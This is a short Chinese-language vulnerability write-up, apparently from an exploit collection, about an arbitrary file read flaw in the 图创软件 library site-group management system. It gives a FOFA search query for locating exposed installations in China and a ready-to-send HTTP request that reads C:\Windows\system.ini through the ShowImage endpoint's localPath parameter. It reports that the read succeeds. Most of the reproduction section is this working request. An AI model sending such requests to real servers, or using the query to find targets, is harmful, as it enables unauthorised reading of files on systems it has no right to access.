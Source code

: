 ```yaml
---
title: 图创软件 图书馆站群管理系统 任意文件读取漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 图创软件
---
```


# 图创软件 图书馆站群管理系统 任意文件读取漏洞

## 漏洞描述

图创软件 图书馆站群管理系统 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

> [!NOTE]
>
> 图创软件 图书馆站群管理系统

## FOFA

> [!NOTE]
>
> "广州图创" && country="CN" && body="/interlib/common/"

## 漏洞复现

登录页面如下

![image-20210531232247675](/img/20210924020302308547.png)

漏洞请求包为

```
GET /interlib/report/ShowImage?localPath=C:\Windows\system.ini HTTP/1.1
Host: 
Content-Length: 4
```

![image-20210531232426203](/img/20210924020302622312.png)

成功读取 system.ini 文件